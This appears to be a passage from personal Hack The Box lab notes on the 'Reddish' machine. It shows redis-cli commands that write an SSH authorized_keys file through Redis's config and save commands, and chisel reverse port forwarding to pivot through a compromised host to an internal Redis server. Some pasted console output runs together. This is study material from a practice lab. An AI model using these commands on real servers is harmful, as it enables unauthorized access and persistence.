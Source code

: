 ![](excellent.png)

[Reading](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html) this database RCE involves write file to the file system by putting out file into Redis server memory and then transfering it.
```bash
$ redis-cli -h 192.168.1.11 flushall
$ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
# Looks good. How to dump our memory content into the authorized_keys file? 
# That’s kinda trivial.
$ redis-cli -h 192.168.1.11192.168.1.11:6379> config set dir /Users/antirez/.ssh/OK192.168.1.11:6379> config get dir
1) "dir"
2) "/Users/antirez/.ssh"192.168.1.11:6379> config set dbfilename "authorized_keys" 
OK
192.168.1.11:6379> save
OK
```

There is also [https://github.com/Ridter/redis-rce/blob/master/redis-rce.py](https://github.com/Ridter/redis-rce/blob/master/redis-rce.py) creates a server to interact with the redis database.  

https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html

https://0xdf.gitlab.io/2019/01/26/htb-reddish.html#pivoting

## Returning Day 8-9 to Redis and beyond

The initial first four days for attempts got all the pieces ready for me, but as a remediation against step over issues  that I have overcome over months of other boxes and research.  

Chiselling to box
![](day8chiseltoredis.png)
A breakdown of this to really hammer home everything I have learnt over the last 6 months:
```bash
# First client to connect to a server
chisel client $serverIP:$serverPort
# Server is configured for reverse with -reverse 
# Therefore the syntax is R: for reverse
# Serving the traffic TO localhost and port
R:$localhostIPv4:$locahostPort: # :...
# ...:
:172.19.0.2:6379 # The address and port to reverse port forward traffic so that it is visible from 
# $localhost:$localPort
```
We are reversing - ie using the NodeRED box to send traffic that only it can reach to a chisel-server that can serve the traffic to us. Port redirection locally would be if we were using a client from our machine. Dynamic port redirection would be that we can access any address and port behind the NodeRED from one server ie .4, .3 and .2 addresses.

nmap as proof
![](nmapredisthroughrevportfwdproof.png)
